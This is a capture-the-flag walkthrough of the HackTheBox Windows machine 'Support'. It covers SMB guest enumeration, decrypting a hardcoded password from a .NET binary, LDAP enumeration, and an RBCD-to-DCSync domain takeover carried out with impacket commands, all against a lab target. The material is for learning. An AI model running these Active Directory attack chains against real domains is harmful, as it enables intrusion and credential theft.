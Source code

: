 ```yaml
---
title : "[HTB] Windows Machine: Support"
date: 2025-05-09 00:00:00 +0800
tags: [ad,htb, practice, rbcd, dcsync]
categories: [ad,htb, practice, rbcd, dcsync]
---
```


# Enumeration

## Port scan

```
# Nmap 7.94SVN scan initiated Fri May  9 21:07:56 2025 as: /usr/lib/nmap/nmap -sC -sV -vv -oN ports -T4 -p- 10.10.11.174
Nmap scan report for 10.10.11.174
Host is up, received echo-reply ttl 127 (0.13s latency).
Scanned at 2025-05-09 21:07:56 CEST for 366s
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-05-09 19:12:28Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49682/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49697/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49740/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-05-09T19:13:20
|_  start_date: N/A
|_clock-skew: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 19493/tcp): CLEAN (Timeout)
|   Check 2 (port 6220/tcp): CLEAN (Timeout)
|   Check 3 (port 45724/udp): CLEAN (Timeout)
|   Check 4 (port 14255/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May  9 21:14:02 2025 -- 1 IP address (1 host up) scanned in 366.26 seconds

```

# Exploitation

## SMB Guest

The SMB share allows the access as the `guest` user.

```bash
nxc smb support.htb -u 'guest' -p '' --shares
```

![](/assets/Support/Support-SMBGuest.png)

Since we have read access over `IPC$` we can also enumerate the users.

```bash
nxc smb support.htb -u 'guest' -p '' --rid-brute
```

By enumerating the share `support-tools` we find a custom binary named UserInfo.exe.zip

```
smbclient -U support.htb/Guest "\\\\support.htb\\support-tools"
```

![](/assets/Support/Support-Shares.png)


## Decrypting password

Since this is a `.NET` binary it can be disassembled by using `ilspy`. Here we can find three things:
* A valid username, which is `ldap` (we already knew this from the `--rid-brute` enumeration)
* An encrypted password and the used key
* The encryption algorithm

![](/assets/Support/Support-Username.png)

![](/assets/Support/Support-EncAndKey.png)


![](/assets/Support/Support-EncryptionAlgorithm.png)

```text
0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E
```

```c#
private static byte[] key = Encoding.ASCII.GetBytes("armando");
```

```c#
// UserInfo, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null  
// UserInfo.Services.Protected  
using System;  
using System.Text;  
  
public static string getPassword()  
{  
    byte[] array = Convert.FromBase64String(enc_password);  
    byte[] array2 = array;  
    for (int i = 0; i < array.Length; i++)  
    {  
        array2[i] = (byte)(array[i] ^ key[i % key.Length] ^ 0xDF);  
    }  
    return Encoding.Default.GetString(array2);  
}
```
This encryption can be easily reversed by using the following python script

```python
import base64


password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = "armando".encode('utf-8')

print(key)
password_bytes = base64.b64decode(password)
plaintex = []
for idx,b in enumerate(password_bytes):
    plaintex.append(chr(b^223^key[idx%len(key)]))

print(''.join(plaintex))
```

```
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

## From ldap user to support user

Since now we have the credentials for a domain user we can enumerate the domain. We can start by looking at the users:
```bash
ldapsearch -x -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=support,dc=htb" "(objectClass=person)"
```

Here we can notice that the user `support` has the `info` parameter populated by a string. This is the plaintext password of the `support` user.

![](/assets/Support/Support-SupportPassword.png)

```
support:Ironside47pleasure40Watchful
```


## From support user to Domain Admin

By looking at the bloodhound output, now we can notice that the `support` user has `GenericWrite` over the domain controller. 

![](/assets/Support/Support-GenericAllOnDC.png)

Since the **machine account quota** for the user `support` is set to 10 (the default), we can abuse this misconfiguration by using `resource-based constrained delegation`

![](/assets/Support/Support-MAQ.png)


We add a new computer to the domain:
```
impacket-addcomputer -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-host dc.support.htb -domain-netbios support.htb 'support.htb/support:Ironside47pleasure40Watchful'
```
We set the `rbcd` on the DC

```
impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'dc$' -action 'write' 'support.htb/support:Ironside47pleasure40Watchful'
```

We impersonate the `Administrator` user and we request a TGS ticket for the `LDAP` service.

```
impacket-getST -spn 'ldap/dc.support.htb' -impersonate 'Administrator' 'support.htb/attackersystem$:Summer2018!'
```

With this ticket we can perform a `DCSync` attack.

```
export KRB5CCNAME=Administrator@ldap_dc.support.htb@SUPPORT.HTB.ccache
impacket-secretsdump -k -no-pass dc.support.htb
```


